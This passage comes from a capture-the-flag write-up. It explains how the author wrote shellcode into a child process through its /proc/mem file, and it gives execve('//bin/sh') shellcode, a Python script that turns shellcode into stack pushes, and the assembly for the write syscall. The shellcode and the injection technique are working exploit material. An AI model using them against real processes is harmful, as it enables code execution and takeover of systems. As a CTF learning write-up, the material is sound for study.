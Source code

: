 ## Step 3: `write`

Now that we are positioned in the proper location to overwrite with our shellcode, we need to figure out _what_ that shellcode will be. During the CTF, I used a standard ORW (open/read/write) payload to print the flag file, since I wasn't sure how I/O would work if I tried to pop a shell in the child process. I tested this after getting the flag and it worked as it normally would, and so that's the solution I have in the `inject.S` file. The [ORW shellcode](sc/orw.S) is also available to look at, though.

Here is the `execve("//bin/sh", 0, 0)` shellcode I used:

```asm
  7 //execve("//bin/sh", 0, 0)
  8 xor %rdx, %rdx
  9 xor %rsi, %rsi
 10 mov $0x68732f6e69622f2f, %rdi
 11 push %rsi
 12 push %rdi
 13 mov %rsp, %rdi
 14 xor %rax, %rax
 15 mov $0x3b, %al
 16 syscall
```

Now, I needed someway of putting the above shellcode payload into the full payload, since I was using shellcode to write shellcode into the child process. I did this by writing a [quick script](sc/gen_push.py) to generate a series of `mov` and `push` instructions to put the shellcode on the stack in the proper order (yay little endian):

```py
 10 while len(shellcode) % 8 != 0:
 11     shellcode += b"\x90"
 12 
 13 for i in range(len(shellcode), 0, -8):
 14     b = struct.unpack("<Q", shellcode[i-8:i])[0]
 15 
 16     print(f"mov\t${hex(b)}, %r8\npush\t%r8")
```

The output from that script is the first section of this assembly, and the second is making the `write` syscall (`r9` has the saved FD for the proc/mem file):

```asm
 11 // put shellcode on the stack (len 28)
 12 mov     $0x90909090050f3bb0, %r8
 13 push    %r8
 14 mov     $0xc03148e789485756, %r8
 15 push    %r8
 16 mov     $0x68732f6e69622f2f, %r8
 17 push    %r8
 18 mov     $0xbf48f63148d23148, %r8
 19 push    %r8
 20 
 21 mov     %rsp, %r8

[...]

 54 // write(fd, shellcode, 28)
 55 mov     %r9, %rdi
 56 mov     %r8, %rsi
 57 xor     %rdx, %rdx
 58 mov     $28, %dl
 59 xor     %rax, %rax
 60 inc     %rax
 61 syscall
```
